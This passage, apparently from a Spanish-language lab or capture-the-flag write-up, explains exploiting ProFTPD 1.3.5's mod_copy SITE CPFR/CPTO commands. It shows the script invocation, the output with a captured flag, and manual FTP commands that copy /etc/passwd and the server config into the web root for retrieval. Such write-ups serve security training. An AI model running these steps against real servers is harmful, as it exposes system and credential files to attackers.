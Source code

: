 ### 4.2 Explicación del Exploit

El exploit funciona mediante los siguientes pasos:

1. **Conexión FTP**: Establece conexión con el servidor ProFTPD en el puerto 21
2. **SITE CPFR**: Utiliza el comando `SITE CPFR /secret.txt` para especificar el archivo fuente a copiar
3. **SITE CPTO**: Utiliza el comando `SITE CPTO /var/www/html/secret.txt` para copiar el archivo al directorio web
4. **Verificación HTTP**: Accede al archivo copiado vía HTTP para recuperar su contenido

### 4.3 Ejecución del Exploit

```bash
python3 49908_secret.py 172.20.35.176
```

### Output de la Ejecución

```
[+] Banner: 220 ProFTPD 1.3.5 Server (Debian) [::ffff:172.20.35.176]
[+] CPFR response: 350 File or directory exists, ready for destination name
[+] CPTO response: 250 Copy successful
[+] Comandos del exploit enviados exitosamente.
[+] Secreto disponible en http://172.20.35.176/secret.txt

----- CONTENIDO DEL SECRETO INICIO -----
FLAG{proftpd_mod_copy_rce_success_2015}
------ CONTENIDO DEL SECRETO FIN ------
```

## 5. Post-Explotación

### 5.1 Verificación Manual

También es posible realizar la explotación manualmente usando un cliente FTP:

```bash
# Conectar al FTP
ftp 172.20.35.176

# Una vez conectado, ejecutar:
quote SITE CPFR /secret.txt
quote SITE CPTO /var/www/html/secret.txt

# Verificar vía web browser o curl
curl http://172.20.35.176/secret.txt
```

### 5.2 Otras Rutas de Explotación

El mismo método puede utilizarse para acceder a otros archivos sensibles:

```bash
# Copiar /etc/passwd
quote SITE CPFR /etc/passwd
quote SITE CPTO /var/www/html/passwd.txt

# Copiar archivos de configuración
quote SITE CPFR /etc/proftpd/proftpd.conf
quote SITE CPTO /var/www/html/proftpd.conf
```
